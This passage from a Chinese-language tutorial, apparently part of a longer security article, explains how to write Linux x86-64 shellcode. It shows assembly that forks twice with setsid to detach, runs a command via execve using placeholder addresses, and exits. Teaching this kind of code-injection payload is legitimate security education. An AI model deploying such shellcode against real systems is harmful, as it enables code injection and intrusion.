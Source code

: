 


## 六、Shellcode

Shellcode实际上是可以注入内存运行的一组字节，缓冲区溢出攻击和其他攻击场景中通常会涉及这方面内容。在我们的应用场景中，shellcode并不会返回远程服务器的命令提示符（shell），但可以帮助我们执行所需的命令。

为了获取所需的字节，我们可以开发C代码然后将其转成汇编代码，或者直接使用汇编语言来开发。

我们先来试着理解隐藏在字节数组背后的内容。

```
push 57
pop rax
syscall
test eax, eax
jnz quit
```

首先我们需要运行`fork`，64位系统上对应的调用号为`57`，具体调用表可参考[此处链接](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)。

然后我们需要调用`setsid`（调用号为`112`）将子进程转换成父进程。

```
push 112
pop rax
syscall
```

然后再次调用`fork`：

```
push 57
pop rax
syscall
test eax, eax
jnz quit
```

然后再轻车熟路调用`execve()`：

```
; execve
mov rdi, 0xcafebabecafebabe ; filename
mov rsi, 0xdeadbeefdeadbeef ; argv
xor rdx, rdx ; envp
push 0x3b
pop rax
syscall
push -1
pop rax
ret
```

最后调用`exit()`（调用号为`60`）结束进程。

```
; exit
quit:
push 0
pop rdi
push 60
pop rax
syscall
```
